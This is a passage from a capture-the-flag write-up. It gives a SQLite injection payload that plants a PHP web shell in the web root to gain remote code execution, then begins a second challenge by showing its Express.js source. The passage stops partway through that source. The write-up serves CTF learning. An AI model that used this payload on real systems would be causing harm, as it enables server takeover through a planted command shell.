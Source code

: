 => The target to achieve is RCE using sqlite injection.

Read more from [here](https://twosixtech.com/sqlite-as-a-shell-script/).

payload:

```
');ATTACH DATABASE '/var/www/html/abyss/exp.php' AS exp;CREATE TABLE exp.pwn (dataz text);INSERT INTO exp.pwn (dataz) VALUES ('<?system($_GET["cmd"]); ?>');--
```

Result:

![flag](NoFlags/flag.png)
_flag_

___

## Sustenance

I had worked in this challenge for 3 days, searching, trying, playing around with it but i couldn't come up with a solution. So i will write what i have learned from orther people's writeups 😗 .

Overview:

![overview](Sustenance/overview.png)
_overview_

Source:
```js
const express = require("express");
const cookieParser = require("cookie-parser");
const path = require("path");

const app = express();
app.use(express.urlencoded({ extended: false }));

// environment config
const port = Number(process.env.PORT) || 8080;
const adminSecret = process.env.ADMIN_SECRET || "secretpw";
const flag =
    process.env.FLAG ||
    "actf{someone_is_going_to_submit_this_out_of_desperation}";

function queryMiddleware(req, res, next) {
    res.locals.search =
        req.cookies.search || "the quick brown fox jumps over the lazy dog";
    // admin is a cool kid
    if (req.cookies.admin === adminSecret) {
        res.locals.search = flag;
    }
    next();
}

app.use(cookieParser());

app.get("/", (req, res) => {
    res.sendFile(path.join(__dirname, "index.html"));
});

app.post("/s", (req, res) => {
    if (req.body.search) {
        for (const [name, val] of Object.entries(req.body)) {
            res.cookie(name, val, { httpOnly: true });
        }
    }
    res.redirect("/");
```
